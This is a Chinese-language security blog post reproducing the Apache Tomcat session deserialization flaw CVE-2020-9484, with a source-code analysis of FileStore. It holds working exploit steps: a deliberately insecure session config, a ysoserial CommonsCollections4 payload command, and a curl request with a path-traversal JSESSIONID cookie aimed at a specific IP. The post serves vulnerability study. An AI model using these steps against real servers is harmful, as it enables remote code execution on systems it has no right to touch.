





---
title: "Tomcat session反序列化漏洞"
date: 2026-02-27T14:32:39+08:00
summary: "CVE-2020-9484"
url: "/posts/java之Tomcat-session反序列化漏洞/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 漏洞信息

Apache Tomcat发布通告称修复了一个源于持久化Session的远程代码执行漏洞（CVE-2020-9484）Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器。攻击者可能可以构造恶意请求，造成反序列化代码执行漏洞。成功利用该漏洞需要同时满足下列四个条件：

1. 攻击者能够控制服务器上文件的内容和名称
2. 服务器PersistenceManager配置中使用了FileStore
3. 服务器PersistenceManager配置中设置了sessionAttributeValueClassNameFilter为NULL，或者使用了其他较为宽松的过滤器，允许攻击者提供反序列化数据对象
4. 攻击者知道使用的FileStore存储位置到可控文件的相对文件路径。

 当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。

# 影响版本

```java
Apache Tomcat 10.x < 10.0.0-M5
Apache Tomcat 9.x < 9.0.35
Apache Tomcat 8.x < 8.5.55
Apache Tomcat 7.x < 7.0.104
```

# 搭建环境

我是在vps上搭建的环境，下载Tomcat相应的版本，且解压到/usr/local/tomcat文件中

```java
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
mkdir /usr/local/tomcat
tar -zxvf tomcat-10.0.0-M4.tar.gz -C /usr/local/tomcat/ 
```

然后给tomcat配置持久化session

修改 `/usr/local/tomcat/conf/context.xlm`，添加Manager

```xml
	<Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter="">
        <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
  	</Manager>
```

然后我们还需要)在`/usr/local/tomcat/apache-tomcat-10.0.0-M4/lib/`依赖目录下整一个反序列化的漏洞依赖比如commons-collections4-4.0.jar

```java
wget https://repo.maven.apache.org/maven2/org/apache/commons/commons-collections4/4.0/commons-collections4-4.0.jar
```



运行Tomcat，也就是bin目录下的catalina.sh

```java
catalina.sh start
```

访问8080端口就出来了



# 漏洞复现

用ysoserial-all.jar生成CC4的POC

```java
java -jar ysoserial-all.jar CommonsCollections4 "touch /tmp/tesst" > /tmp/poc.session
```

然后利用FileStore 的 LFI 漏洞来读取该session文件并触发反序列化

 ```java
 curl 'http://156.239.238.130:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/poc'
 ```



可以看到成功执行了touch命令并生成了一个tesst文件

# 漏洞分析

在org.apache.catalina.session.FileStore中，当用户请求里带有 JSESSIONID 时 会运行存在问题的 load 方法

tomcat的源码就自己去找吧，懒得写了

```java
public Session load(String id) throws ClassNotFoundException, IOException {
        // Open an input stream to the specified pathname, if any
        File file = file(id);
        if (file == null || !file.exists()) {
            return null;
        }
        Context context = getManager().getContext();
        Log contextLog = context.getLogger();
        if (contextLog.isDebugEnabled()) {
            contextLog.debug(sm.getString(getStoreName()+".loading", id, file.getAbsolutePath()));
        }
        ClassLoader oldThreadContextCL = context.bind(Globals.IS_SECURITY_ENABLED, null);
        try (FileInputStream fis = new FileInputStream(file.getAbsolutePath());
                ObjectInputStream ois = getObjectInputStream(fis)) {
            StandardSession session = (StandardSession) manager.createEmptySession();
            session.readObjectData(ois);
            session.setManager(manager);
            return session;
        } catch (FileNotFoundException e) {
            if (contextLog.isDebugEnabled()) {
                contextLog.debug("No persisted data file found");
            }
            return null;
        } finally {
            context.unbind(Globals.IS_SECURITY_ENABLED, oldThreadContextCL);
        }
    }
```

这里的id就是我们传入的JSESSIONID的值，也就是`../../../../../tmp/poc`，会调用file文件，跟进看看

```java
    private File file(String id) throws IOException {
        if (this.directory == null) {
            return null;
        }
        String filename = id + FILE_EXT;
        File file = new File(directory(), filename);
        return file;
    }
```

直接拼接`id`和`FILE_EXT`拓展名，也就是`.session`，随后返回file对象

然后会尝试调用getObjectInputStream方法



```java
    protected ObjectInputStream getObjectInputStream(InputStream is) throws IOException {
        BufferedInputStream bis = new BufferedInputStream(is);
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        CustomObjectInputStream ois;
        if (this.manager instanceof ManagerBase) {
            ManagerBase managerBase = (ManagerBase)this.manager;
            ois = new CustomObjectInputStream(bis, classLoader, this.manager.getContext().getLogger(), managerBase.getSessionAttributeValueClassNamePattern(), managerBase.getWarnOnSessionAttributeFilterFailure());
        } else {
            ois = new CustomObjectInputStream(bis, classLoader);
        }

        return ois;
    }
```

里面会调用CustomObjectInputStream获取到Gadget类，随后就会执行反序列化操作



所以如果我们能上传文件，就可以达到反序列化RCE的效果。

参考文章：

https://www.freebuf.com/articles/web/242782.html

https://cloud.tencent.com/developer/article/1665295
